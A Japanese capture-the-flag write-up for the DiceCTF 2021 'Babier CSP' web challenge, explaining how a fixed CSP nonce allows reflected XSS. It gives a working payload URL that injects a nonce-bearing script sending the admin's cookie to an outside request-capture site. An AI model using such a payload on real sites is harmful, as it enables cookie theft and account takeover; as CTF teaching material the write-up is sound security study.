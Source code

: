 # web/Babier CSP

## 問題
[babier-csp.dicec.tf](babier-csp.dicec.tf)  
[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)  

The admin will set a cookie `secret` equal to `config.secret` in [index.js](https://github.com/raster0x2a/CTF-writeup/blob/master/DiceCTF/index.js).

## 解説
まず [babier-csp.dicec.tf](babier-csp.dicec.tf) は name に渡された文字列をそのまま表示させています。そのため XSS が期待できますが、 `<script>alert('ok')</script>` などを直接入れても以下のように怒られます。  

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-LRGWAXOY98Es0zz0QOVmag=='". Either the 'unsafe-inline' keyword, a hash ('sha256-GhSELej6D4No8Cu4c6BlA7SQooAXc4iM9HQ5s9uW7Gw='), or a nonce ('nonce-...') is required to enable inline execution.
```

script タグの nonce 属性には、CSP(Content Security Policy) によって JavaScript の実行を制限し、XSS などを防ぐ機能があります。しかし nonce の値が予測できてしまえば意味をなさないため、本来はリクエストごとにランダムな文字列を生成しなければならないのですが、このページでは `LRGWAXOY98Es0zz0QOVmag==` で固定されています。そのため `<script nonce=LRGWAXOY98Es0zz0QOVmag==>hoge</script>` という形式で怒られずに任意のスクリプトをインジェクションできます。

次に [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp) では、 URL を入力して submit すると入力した URL に Admin がアクセスしてくれます。Admin の cookie を得ることが第一の目的なので、 [babier-csp.dicec.tf](babier-csp.dicec.tf) にアクセスさせてから、cookie をクエリに含めてリクエスト内容を確認できる URL に遷移させることを考えます。
私はリクエストを確認するために [Request Inspector](https://requestinspector.com/) というサイトを利用しました。
具体的には以下の URL を入力することで cookie が確認できました。  
``https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href=`[Request Inspectorで発行したURL]?${document.cookie}`</script>``

`index.js`を見てみると
```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
とあるため、 `https://babier-csp.dicec.tf/[cookieのsecretの値]` にアクセスしてみると、ソースのコメントにフラグが書いてあります。
